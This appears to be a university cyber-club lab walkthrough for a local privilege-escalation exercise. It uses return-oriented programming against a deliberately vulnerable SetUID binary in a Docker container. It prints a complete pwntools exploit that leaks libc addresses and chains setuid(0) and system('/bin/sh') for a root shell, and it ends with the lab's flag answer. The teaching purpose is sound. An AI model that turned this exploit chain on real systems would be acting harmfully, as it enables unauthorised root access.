










# Binary Exploitation: ROP Lab

## Purpose

The goal of this lab is to give students an introduction into binary exploitation. While this is not the most basic form of exploitation, it is a form that can give some good insight into how a computer works, how a processor runs through code, and how different code security features work.

## Background

**What is binary exploitation?** Binary exploitation is the practice of taking advantage of a flaw in a compiled piece of software, in order to gain access, or further your access within a system. Common exploits within this category include things like buffer overflow, use after free, or return oriented programming. Each technique requires different conditions, so not all these attacks are possible in every situation, however, we will cover some ways of finding the bread crumbs that will lead us to know which attack to use.

**What attack will we use in this lab?** In this lab we will leverage return oriented programming (ROP). We will get into specifics on why we are doing this later, but due to the specifics of our binary, this will be our approach for the lab.

**What is ROP?** ROP or return oriented programming is an exploitation technique used against binaries that looks to take control of the program's control flow and execute machine code on its behalf. This is a technique that can be used in the presence of something like [executable-space protection](https://en.wikipedia.org/wiki/Executable-space_protection), which is something that would stop us from using a buffer overflow to execute shell code. We gather assembly instructions from the binary which are called gadgets, we hope to gather enough gadgets to eventually run commands from either the code itself, or shared libraries which are linked with the binary. The end goal being, running commands on the system we are attacking.

**What does this lab entail?** This lab will be a local privilege escalation lab targeting an Ubuntu 24.04 instance that is running in a Docker container. Using ROP we will exploit a binary that has been configured with SetUID and SetGID permissions in linux. These permissions make the binary run as root in this case as that is the own of the file, giving us a golden opportunity for privilege escalation. The code is also vulnerable to a buffer overflow. These few attributes cause the perfect storm for us to be able to exploit this system, hopefully gaining root access to the system. After we get root access to the system, we can find the flag that is contained within the system.

**Lab Setup:**
- Victim
   - OS: Ubuntu 24.04 Docker Container
   - Vulnerable Application: ROP
   - Target: Flag.txt

## Lab Guide

### Scope


### Getting Started

Before we begin our lab, let's ensure we have everything that we need to be successful. If you haven't already visited [Docker Setup](https://weber-cyber-club.github.io/extradocs/docker/docker-setup/), to get Docker installed and set up for labs. If you are confident in your Docker skills, don't even worry, just keep going through the lab.

Now with Docker installed, let's begin checking and installing the dependencies that we will need for this demonstration. For this lab we are going to need Python 3, PWNTools, Ghidra, and checksec.

To check if Python 3 exists just run:

```
python3 --version
```

As long as a version appears, you have Python 3 on your system already! If, for some reason, you did not have Python 3 installed, just run:

```
# Ensures your repository indexes are current
sudo apt update

# Installs Python 3

sudo apt install python3
```

To check if PWNTools is installed run:

```
pip show pwntools
```

If PWNTools isn't installed, you will run:

```
sudo apt update

sudo apt install python3-pwntools
```

To check if checksec is installed run the command:

```
checksec --version
```

If it is not installed just run:

```
sudo apt install checksec
```

To check is Ghidra is installed run:

```
ghidra
```

If it is not installed run:

```
sudo apt install ghidra
```


Now that we have our environment fully configured, let's check what files we have available to us for this lab. To do this we need to pull down this lab from git:

```
git clone https://github.com/weber-cyber-club/Club-Challenges.git
```

Now we just need to get into our Club-Challenges directory, and get to this lab:

```
# Change into the lab directory

cd Club-Challenges/Labs/ROP/

# List the contents of the directory
ls
```

We can now see a ROP file, an Assets folder, a Dockerfile, and this README file. We can ignore the Assets folder. This is a folder I leave in these labs, just in case you wanted to see what goes into making a lab like this. I know it gives the answer to the lab, however, so does the walkthrough. If you want to get the most out of these labs, look at the assets folder last, and learn how the lab was created.

One of the first steps that we should take at this point is to complete the setup of this lab. We are going to build our Docker image and machine really quickly before we go any further. To build and run this Docker container we need to run the following commands.

```
# Builds the Docker container image using the Dockerfile in the current directory, and gives it the tag of ROP-Lab
docker build -t rop-lab .

# Runs the Docker container image, not allowing the container to stop when it completes the current command it is working on, and detaches it from our console
docker run -itd --name rop-lab-container rop-lab

# Make sure the container is up and running
docker ps -a
```

### Reconnisance

Now let's access the docker container:

```
# Run a command on the docker container, make it interactive with a terminal
docker exec -it rop-lab-container
```

We can see that we are in the Intern account, we can try to run a couple commands here, such as sudo -l to list our permissions on the system, but we can see sudo is not a command we can run. We can try to use the su command to switch user to the root account:

```
su -
```

However, we are prompted for a password, which we do not know at this time, you can continue to look around, but we should probably check to see if there is anything on this system we can exploit to escalate our privileges, let's use the ls command in the /usr/bin directory to see which applications are installed on this system:

```
ls /usr/bin
```

We can see an output that shows an interesting file, we can see ROP that has a red outline around it with white letters, in a terminal like we are using, this usually means the SetUID bit is set. To check for sure let's run the command:

```
ls -l /usr/bin/ROP
```

To show a more detailed listing of the permissions on this file.

```
-rwsr-sr-x 1 root root  16120
```

This is a very interesting output, we can see that instead of the permissions showing rwx like usual they show rws. The s is a special permission that lets a user run a command as the owner of the file. This is called the SetUID bit. It does have some real uses, such as the passwd command. Passwd needs to have the ability to write to the /etc/shadow file. The only issue with this is root is the only user who is even allowed to look at this file. You may think this isn't a huge deal, "I could just run passwd as sudo, or as root to get around this" well this doesn't really work. We want users to be able to change their own passwords, but we don't want to give everyone sudo access, even limited sudo access. So instead we pretty much give the program sudo access. This is normally not a big deal, however, if we have a vulnerability in this program, this is a huge deal. We have been given this ROP executable on our local machine to play around with. So let's exit the docker container and do some analysis on our local machine.

```
# To leave the docker container
exit
```

### Weaponization

Once we are back on our local machine, let's take a look at the executable file that we have been given. One good start for looking at files like this is to run the file command against it.

```
file ROP
```

This will tell us which architecture the executable is compiled for, whether it is dynamically or statically linked, and other potentially useful information. The output of this command will show us the file is an ELF 64-bit binary, the standard format for a 64-bit linux system, and dynamically linked, which will be important later on.

While this command can be helpful, there is a different command that will help us much more, the checksec command. Let's run checksec against this file.

```
checksec --file=ROP
```



We will not cover all of this output right now, however, if you are enjoying this topic of Binary Exploitation, I would highly encourage you to do further research into what all of these security controls do. The most important parts of this output will be, Stack Canary (No Canary Found) this is a random number added to the stack making stack based attacks more difficult, and NX bit (NX Enabled) this makes parts of the virtual memory non-executable preventing us from injecting code into areas of memory that we are not supposed to inject data. Now that we know what security controls we are contending with, let's take a look at our program we have been given. First let's just start by running the program.

```
./ROP
```



Nothing crazy is happening so far, just a normal output. Let's take a look at this code in a disassembler to see if there are any flaws that we could take advantage of. A good disassembler that should be in you install is called ghidra, you can go up to your search bar, or applications section and look for ghidra and run it, or you can run it from your terminal with:

```
ghidra
```

Now to create a project we will go to File > New Project, then click Non-Shared Project and click next, Keep the project directory the same, and name the project ROP-Challenge, and click finish.

Then we will go to File > Import File, then navigate to your ~/Club-Challenges/Labs/ROP file or where you stored it and import the file and click next on the pop up that appears. Now once we are back in the projects window, just double click on ROP.

Click yes on analyze and keep the default values and click analyze. You should end up at a screen that looks like this:



Now on the left middle of the screen there is a section called Symbol Tree, we want to go to Symbol Tree and click the arrow next to functions, and scroll down and click on main.


Now in the right window we can see the decompilation of main, don't pay much mind to the setvbuf statements, what we are interested in is the vuln() function that is called, let's do the same process as before to look at a function, but this time click on the vuln function:



There is something a bit more interesting in this output, we see the gets function, a fun fact about the gets function, even the main page will tell you "do not use this function" it is that vulnerable. It does not do any bounds checking on the buffer that you attempt to write data to, causing a buffer overflow if you try to pass in an amount of data that is too large. In our case it looks like the buffer we are writing to is 48 bytes in size. Equipped with this new knowledge, let's go back to our terminal and attempt a buffer overflow on this program.

Just close out of the ghidra window, you can save the file if you'd like, but we don't need any of that information anymore.

In our terminal let's attempt a buffer overflow, while we could just lay on our keyboard to put out a bunch of data, that is not a very clean strategy, instead we are going to use python so that we can specify how many characters we want to load into our program. Let's write out first partial exploit using python. We are going to start poking around this program trying to make it crash, let's start by sending 60 A's to the program.

```
python3 -c "print('A'*60)"
```

We should see an output similar to this:


Believe it or not this segfault is wonderful news, we have just successfully overflowed a buffer, now we get into how we are actually going to leverage this issue to exploit the program. We are going to run the dmesg command, a command that gives a look into what is going on within the system at this time, and we are going to see something interesting:

```
sudo dmesg
```



We can see we have our segfault, and we overflowed 4 bytes (because the char representation of A is 41 and a char is a single byte). and we can see our instruction pointer is set to 41414141 and some zeros before that. This means that we have overflowed our buffer by enough space to actually overwrite the instruction pointer on the stack. The instruction point (IP) is a pointer that tells the program where to go next. If we can write data to this IP then we can tell the program what to do. In a normal buffer overflow we would just put some shell code into memory and tell the program to go there, well remember our memory is not writeable right now, sometimes there is a function within the code we'd like to go to, however, in our example there is nothing of use for us. We are going to want to take advantage of some libraries that the code has linked to it. Specifically Libc, the reason for this is most programs will have the std library or Libc linked to it, and Libc contains functions such as system() that will allow us to run system commands. But, we don't have write access to the memory so how can we get there? This is where the previously explained return oriented programming comes into play. We will now begin writing your return oriented program.

Before we begin automating our exploit, let's first get our buffer overflow fine tuned, we said we went 4 bytes into the IP, we don't want to be touching the IP, so we need to go down to 56 A's. We should see this output after changing to just use 56 A's:



Now with the instruction point clean, we are ready to start building out an exploit, we are going to use pwntools to do this, let's create a file in our current directory called exploit.py

```
touch exploit.py
```

Now let's edit this file with:

```
nano exploit.py
```

Or whatever you like to edit files with.

As always we will start by adding the:

```
#! /usr/bin/python3
```

line to specify our command interpreter. We are going to need to import pwn which import PWNTools, as well as set some general information:

```
#!/usr/bin/env python

# Import PWNTools
from pwn import *

# Set the architecture to be 64bit
context.arch = 'amd64'

# Set our interactive terminal shell to be a bash shell
context.terminal = 'bash'

# Set out executable that we are working on to be the ROP file
elf = ELF("./ROP")

# Start running the ELF file as a process
p = elf.process()

# Get ROP gadgets from the ROP file
rop = ROP(elf)
```

Now that we have our general information set up and we have gotten the ROP gadgets out of our ROP file, let's move on to creating our first ROP chain.

What do we want to do with this initial chain? We are trying to figure out which version of Libc the system will be running, in order to do this we are going to need to leak some memory addresses. We know from our code that we have access to the puts() function, which is a print command. With this command we could print out memory addresses from the Global Offset Table (GOT). This is a section of the ELF that stores the memory address for the external function that we are going to call within our program, that interesting part of this information is that there are databases that can tell, based on where the functions live within memory which version of Libc you are using (this is virtual memory addresses, that is why they are similar between systems that are using the same versions of Libc). In order to do this we are going to need to exploit the program's buffer overflow, build up a ROP chain that will print out memory addresses within the GOT, then assign them to variables to print them out in hex form instead of in raw bytes.

```
#!/usr/bin/env python

# Import PWNTools
from pwn import *

# Set the architecture to be 64bit
context.arch = 'amd64'

# Set out interactive terminal shell to be a bash shell
context.terminal = 'bash'

# Set out executable that we are working on to be the ROP file
elf = ELF("./ROP")

# Start running the ELF file as a process
p = elf.process()

# Get ROP gadgets from the ROP file
rop = ROP(elf)

# Building the ROP chain to call puts on the GOT entry for puts, and gets, then putting together ROP gadgets to drop us in the vuln function again, this will allow us to continue exploiting the program even after we run this first part of the exploit
rop.call(elf.symbols["puts"],[elf.got['puts']])
rop.call(elf.symbols["puts"],[elf.got['gets']])
rop.call(elf.symbols["vuln"])

# This is the offset that we found earlier for how many A's we are allowed to put in the buffer
offset = 56

# This will consume the line that says "Hello, I would like to return something."
p.recvuntil("\n")

# This will consume the line that says "What would you like to return today?"
p.recvuntil("\n")

# This will put the payload into an array
payload = [


   b"A"*offset,

   rop.chain()

]

# This will join the payload together, allowing for direct bytes to be sent into the program
payload = b"".join(payload)

# This will send out payload
p.sendline(payload)

# We are now going to receive two lines of data, the first will be the printed output of the puts GOT entry, we are receiving the raw bytes here, then we do the same thing for the GOT entry
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b'\x00'))
gets = u64(p.recvuntil("\n").rstrip().ljust(8, b'\x00'))

# Then we print the output of the leak onto the terminal to use in the next phase of the attack.
log.info(f"puts found at {hex(puts)} ")
log.info(f"gets found at {hex(gets)} ")
```

If we run our code that we have thus far we will get the address of the puts and gets functions from our own machine, but we want the ones from the docker container, so copy your code or copy mine from below, and we will run it within the docker container:

```
#!/usr/bin/env python

# Import PWNTools
from pwn import *

# Set the architecture to be 64bit
context.arch = 'amd64'

# Set out interactive terminal shell to be a bash shell
context.terminal = 'bash'

# Set out executable that we are working on to be the ROP file
elf = ELF("./ROP")

# Start running the ELF file as a process
p = elf.process()

# Get ROP gadgets from the ROP file
rop = ROP(elf)

# Building the ROP chain to call puts on the GOT entry for puts, and gets, then putting together ROP gadgets to drop us in the vuln function again, this will allow us to continue exploiting the program even after we run this first part of the exploit
rop.call(elf.symbols["puts"],[elf.got['puts']])
rop.call(elf.symbols["puts"],[elf.got['gets']])
rop.call(elf.symbols["vuln"])

# This is the offset that we found earlier for how many A's we are allowed to put in the buffer
offset = 56

# This will consume the line that says "Hello, I would like to return something."
p.recvuntil("\n")

# This will consume the line that says "What would you like to return today?"
p.recvuntil("\n")

# This will put the payload into an array
payload = [


   b"A"*offset,

   rop.chain()

]

# This will join the payload together, allowing for direct bytes to be sent into the program
payload = b"".join(payload)

# This will send out payload
p.sendline(payload)

# We are now going to receive two lines of data, the first will be the printed output of the puts GOT entry, we are receiving the raw bytes here, then we do the same thing for the GOT entry
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b'\x00'))
gets = u64(p.recvuntil("\n").rstrip().ljust(8, b'\x00'))

# Then we print the output of the leak onto the terminal to use in the next phase of the attack.
log.info(f"puts found at {hex(puts)} ")
log.info(f"gets found at {hex(gets)} ")
```

Remember our command to get into the docker container is:

```
docker exec -it rop-lab-container /bin/bash
```

If you run an ls -a command from the directory you are dropped into you will see a .venv directory, this is where we are going to run our python commands. It is not required to have this directory, it will just make this next command more uniform for students if you all have this directory.

We are going to need to import some python libraries, but with some python security measure we are going to need to do it within a python virtual environment, to create this python venv we will run the following command:

```

python3 -m venv .venv/

source .venv/bin/activate

```

Now were are in our virtual environment we will run the:

```
pip install pwntools
```

Command to install pwntools within this system. The reason this is possible is because this will only install in this virtual environment, not on the whole system, so you should be trusted to install things for yourself. Now let's run:

```
nano exploit.py
```

Within the docker container and paste the code that we previously copied. We will need to make one modification. ROP is not in our directory anymore, it is in /usr/bin/ROP, so we will need to change that portion of the code to reflect our current system.



As always we need to run:

```
chmod +x exploit.py
```

To be able to be allowed to execute the file, then we just need to run:

```
python3 exploit.py
```

To run the exploit.



We now have the memory leak that we need to get through the second part of our exploitation of this system, we now need to use this leak to find which version of Libc we will need to attack. Let's go to [this site](https://libc.blukat.me/) and input our memory address and see what it tells us.



We can now see that the version of Libc could be one of a few variations of libc6_2.39, in my experience the different version of Ubuntu variants don't matter, but I just get the most recent one, click on the one for Ubuntu 8.6 amd64 and right click the download link to copy the link. Here is the link if you can't copy it, http://libc.blukat.me/d/libc6_3.39-0ubuntu8.6_amd64.so. Now we will run wget from within the docker container to pull down this Libc shared object file.

```
wget http://libc.blukat.me/d/libc6_3.39-0ubuntu8.6_amd64.so
```

Now that we have our Libc we are prepared to gain ROP gadgets from within the Libc library to chain together to get to the system() function, as system is probably the most powerful command we could ask for at this point. We are also going to do another trick while we're at it. Although the program is going to be run as root because of the SetUID bit being set, when we exit the executable our privileges will drop, it is called an ephemeral UID, it is not super important to get into at this time, however, we will need to elevate our privileges within the program to full root not just ephemeral, which we can do with some more ROP gadgets. Once we get all of these ROP gadgets we can send an exploit to the executable, hopefully elevating our privileges to root. The following code will detail this last jump.

```
# Load the Libc shared object as our ELF file we want to work on
libc = ELF("libc6_3.39-0ubuntu8.6_amd64.so")

# Find the base address of libc in memory by subtracting what the GOT has puts at and where puts is being show in the shared object file
libc.address = puts - libc.symbols["puts"]

# Print out this base address
log.info(f"libc base address {hex(libc.address)} ")

# Get the ROP gadgets out of the Libc ELF
rop = ROP(libc)

# Send this return, this is re-aligning the stack, a more advanced concept that is important as you progress through binary exploitation. I encourage you to look further into the importance of stack alignment but I will not be covering this concept at this time.
rop.raw(rop.find_gadget(['ret'])[0])

# The SetUID command set to 0 root's userID
rop.setuid(0)

# Aligning the stack again
rop.raw(rop.find_gadget(['ret'])[0])

# Setting the gid to 0 which is root's groupID
rop.setgid(0)

# We will attempt to call the system function with the argument of /bin/sh it would look like this system("/bin/sh");
rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh\x00"))])

# Exit out of the program dropping us into the shell
rop.call(libc.symbols["exit"])

# Build a payload as an array
payload = [


       b"A"*offset,

       rop.chain()

]

# Turn the array into a string of bytes that can be sent to the program
payload = b"".join(payload)

# Send the payload to the program
p.sendline(payload)

# Make our session interactive
p.interactive()
```

Making our final exploit be the following:

```
#!/usr/bin/env python

# Import PWNTools
from pwn import *

# Set the architecture to be 64bit
context.arch = 'amd64'

# Set out interactive terminal shell to be a bash shell
context.terminal = 'bash'

# Set out executable that we are working on to be the ROP file
elf = ELF("./ROP")

# Start running the ELF file as a process
p = elf.process()

# Get ROP gadgets from the ROP file
rop = ROP(elf)

# Building the ROP chain to call puts on the GOT entry for puts, and gets, then putting together ROP gadgets to drop us in the vuln function again, this will allow us to continue exploiting the program even after we run this first part of the exploit
rop.call(elf.symbols["puts"],[elf.got['puts']])
rop.call(elf.symbols["puts"],[elf.got['gets']])
rop.call(elf.symbols["vuln"])

# This is the offset that we found earlier for how many A's we are allowed to put in the buffer
offset = 56

# This will consume the line that says "Hello, I would like to return something."
p.recvuntil("\n")

# This will consume the line that says "What would you like to return today?"
p.recvuntil("\n")

# This will put the payload into an array
payload = [


   b"A"*offset,

   rop.chain()

]

# This will join the payload together, allowing for direct bytes to be sent into the program
payload = b"".join(payload)

# This will send out payload
p.sendline(payload)

# We are now going to receive two lines of data, the first will be the printed output of the puts GOT entry, we are receiving the raw bytes here, then we do the same thing for the GOT entry
puts = u64(p.recvuntil("\n").rstrip().ljust(8, b'\x00'))
gets = u64(p.recvuntil("\n").rstrip().ljust(8, b'\x00'))

# Then we print the output of the leak onto the terminal to use in the next phase of the attack.
log.info(f"puts found at {hex(puts)} ")
log.info(f"gets found at {hex(gets)} ")

# Load the Libc shared object as our ELF file we want to work on
libc = ELF("libc6_3.39-0ubuntu8.6_amd64.so")

# Find the base address of libc in memory by subtracting what the GOT has puts at and where puts is being show in the shared object file
libc.address = puts - libc.symbols["puts"]

# Print out this base address
log.info(f"libc base address {hex(libc.address)} ")

# Get the ROP gadgets out of the Libc ELF
rop = ROP(libc)

# Send this return, this is re-aligning the stack, a more advanced concept that is important as you progress through binary exploitation. I encourage you to look further into the importance of stack alignment but I will not be covering this concept at this time.
rop.raw(rop.find_gadget(['ret'])[0])

# The SetUID command set to 0 root's userID
rop.setuid(0)

# Aligning the stack again
rop.raw(rop.find_gadget(['ret'])[0])

# Setting the gid to 0 which is root's groupID
rop.setgid(0)

# We will attempt to call the system function with the argument of /bin/sh it would look like this system("/bin/sh");
rop.call(libc.symbols["system"], [next(libc.search(b"/bin/sh\x00"))])

# Exit out of the program dropping us into the shell
rop.call(libc.symbols["exit"])

# Build a payload as an array
payload = [


       b"A"*offset,

       rop.chain()

]

# Turn the array into a string of bytes that can be sent to the program
payload = b"".join(payload)

# Send the payload to the program
p.sendline(payload)

# Make our session interactive
p.interactive()
```

# Delivery

You now have a complete exploit, you can run the exploit now using:

```
python3 exploit.py
```

Upon successful exploitation you should be seeing:



Usually people will run a command like id to see that they are root which is what I ran, now if we change directories back to root's home directory and cat flag.txt we can see the flag for this lab.

```
cd /root/

cat flag.txt
```

Now we can simply type exit to break the program, exit to get out of the root terminal, and type exit again to leave the docker container.

To shut down and remove this container simply run:

```
docker stop rop-lab-container
```

Followed by:

```
docker rm rop-lab-container
```

And finally:

```
docker rmi rop-lab
```

To remove the rop-lab image from your machine.

## Questions

**Question 1:** What is the root flag on the docker container?

## Answers

**Question 1:** WSU-PROF-3920

## Conclusion

I hope this has been an educational experience for everyone who has completed this challenge. You have successfully found a buffer overflow vulnerability, and even in the face of a few modern defence mechanisms you found a way to use return oriented programming, along with the vulnerable application to perform a privilege escalation attack on a machine. While this lab might not seem like a real world example, it truly can happen. Misconfigurations like this do occur, and applications are being found to be vulnerable to buffer overflows all the time. The protection against an attack like this is modern protections like ASLR or PIE. But good coding practices or memory safe code such as Rust should be where you start. If you would like to learn more about these topics, look up videos or articles on Return Oriented Programming or Binary Exploitation. [John Hammond](https://www.youtube.com/@_JohnHammond) and [Live Overflow](https://www.youtube.com/LiveOverflow) also have some very good videos on this topic and many other cyber security related topics. Thank you again for participating, let me know what you would like to see next, or if you have any questions!

**Until Next Time!**

**The Professor**